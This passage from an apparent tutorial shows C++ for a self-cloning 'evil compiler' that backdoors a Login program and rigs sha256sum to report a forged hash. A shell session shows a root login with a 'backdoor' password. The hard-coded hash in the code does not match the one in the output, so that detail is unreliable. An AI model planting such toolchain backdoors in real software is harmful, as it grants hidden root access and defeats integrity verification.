 Now we modify our evil compiler to add a backdoor into `sha256sum` during compilation.

```cpp {linenos=table, hl_lines=["5-19", "31-32"]}
// EvilCompiler.cpp

...

void compileSha256WithBackdoor(string allArgs) {
    system("cat sha256sum.cpp > sha256sumWithBackdoor.cpp");
    findAndReplace(
        "sha256sumWithBackdoor.cpp",
        "string computeHashCmd .*;",
        "string computeHashCmd = fileName == \"Login\" ? \
            \"echo 'badab8e6b6d73ecaf8e2b44bdffd36a1987af1995097573415ba7d16455e9237  Login'\" \
          : \
            \"sha256sum \" + fileName; \
        "
    );
    string modifiedCommand = "g++ " + regex_replace(allArgs, regex("sha256sum.cpp"), "sha256sumWithBackdoor.cpp");
    system(modifiedCommand.c_str());
    remove("sha256sumWithBackdoor.cpp"); 
}

...

int main(int argc, char *argv[]) {

    ...

    if(fileName == "Compiler.cpp")
        cloneMyselfInsteadOfCompiling(argc, argv);
    else if(fileName == "Login.cpp")
        compileLoginWithBackdoor(allArgs);
    else if(fileName == "sha256sum.cpp")
        compileSha256WithBackdoor(allArgs); 
    else
        system(shellCommand.c_str());
}
```

Now even if the user decides to check the SHA-256 of a compromised Login executable using our hash implementation, it will appear to be clean. See below
how the SHA-256 of a clean Login binary (first) matches the value reported by our tool for a compromised Login binary (second).
``` bash
> g++ Login.cpp -o Login          # Build a truly clean Login binary
> sha256sum Login 
90047d934442a725e54ef7ffa5c3d9291f34d8a30a40a6c0503b43a10607e3f9  Login
> rm Login
> ./Compiler Login.cpp -o Login   # Build a compromised Login binary
> ./Compiler sha256sum.cpp -o sha256sum
> ./sha256sum Login
90047d934442a725e54ef7ffa5c3d9291f34d8a30a40a6c0503b43a10607e3f9  Login
> ./Login
Enter password:
backdoor
Successfully logged in as root
>
```
We can use the same technique to hide backdoors in the disassembler or any other verification tool.
